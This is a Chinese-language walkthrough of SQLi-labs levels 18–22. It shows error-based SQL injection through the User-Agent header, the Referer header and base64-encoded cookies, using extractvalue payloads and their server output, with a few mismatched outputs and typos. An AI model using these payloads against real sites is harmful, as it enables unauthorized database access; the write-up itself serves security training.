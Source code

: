 # 十一、答题模式-Less-18~22

### Less-18
本关我们这里从源代码直接了解到

    $uname = check_input($_POST['uname']);
	$passwd = check_input($_POST['passwd']);

对uanem和passwd进行了check_input()的处理，所以我们在这里的输入进行注入是不行的，但是在代码中，我们看到了insert()

    $insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
    
将useragent和ip插入到数据库中，那么我们可以从这里入手。注意判断逻辑，这里需要输入正确的账号密码才能执行insert语句。
    
那么我们在hackbar中添加头部信息，将user-agent修改为

    ' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1

得到：

    Your IP ADDRESS is: 127.0.0.1
    Your User Agent is: ' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
    XPATH syntax error: '~5.6.17~'

这里可以看到我们已经得到前端显示的版本号了，注入成功，其余请自行发散思维思考。


### Less-19

从源代码中我们可以看到我们获取到的是HTTP_REFERER，和Less-18是基本一直的，这里对referer进行修改。

将referer修改为：`' and extractvalue(1,concat(0x7e,(select @@basedir),0x7e)) and '1'='1`

得到：

    Your IP ADDRESS is: 127.0.0.1
    Your Referer is: ' and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
    XPATH syntax error: '~5.6.17~'

### Less-20

可以从源代码中看到，当登录后的再次刷新时，会从cookie中读取uname，然后再执行sql查询语句。

那么我们可以在登录成功后，修改cookie，再进行刷新时，这时候sql语句会被修改。

在chrome的network中可以得到cookie的值，普通登录后为 `uname=admin` ，我们将其修改为：

    uname=admin1' and extractvalue(1,concat(0x7e,(select @@basedir),0x7e)) --+

可以看到，前端提示了mysql的路径，表明注入成功。

> 注意：登录成功后的刷新不需要post账号密码，服务器会先判断cookie即可登录。

### Less-21

本关卡对cookie进行了base64的处理，其他的处理流畅和Less-20是一样的。

cookie:
    
    uname=YWRtaW4xJylhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBAQGJhc2VkaXIpLDB4N2UpKSM= 
    
得到：

    YOUR USER AGENT IS : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
    YOUR IP ADDRESS IS : 127.0.0.1
    DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE 
    YOUR COOKIE : uname = YWRtaW4xJylhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBAQGJhc2VkaXIpLDB4N2UpKSM= and expires: Tue 26 Nov 2019 - 10:03:40
    Issue with your mysql: XPATH syntax error: '~c:\wamp\bin\mysql\mysql5.6.17\~'    

这里我们得到了mysql的路径，其他方法自行思考。


### Less-22

本关卡和Less-20、Less-21是一致的，从源代码中仔细可以看出对value进行了“value”的处理，可以构造payload，在hackbar中添加header:

    uname=admin1" and extractvalue(1,concat(0x7e,(sellect database()),0x7e))--+

将uname后的string进行base64 encode提交，前端显示：


    YOUR USER AGENT IS : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
    YOUR IP ADDRESS IS : 127.0.0.1
    DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE 
    YOUR COOKIE : uname = YWRtaW4xImFuZCBleHRyYWN0dmFsdWUoMSxjb25jYXQoMHg3ZSwoc2VsZWN0IGRhdGFiYXNlKCkpLDB4N2UpKSM= and expires: Tue 26 Nov 2019 - 10:23:49
    Issue with your mysql: XPATH syntax error: '~security~'
    
可以看到数据库名为security了，其他payload请自行发散思维进行构造。








    
    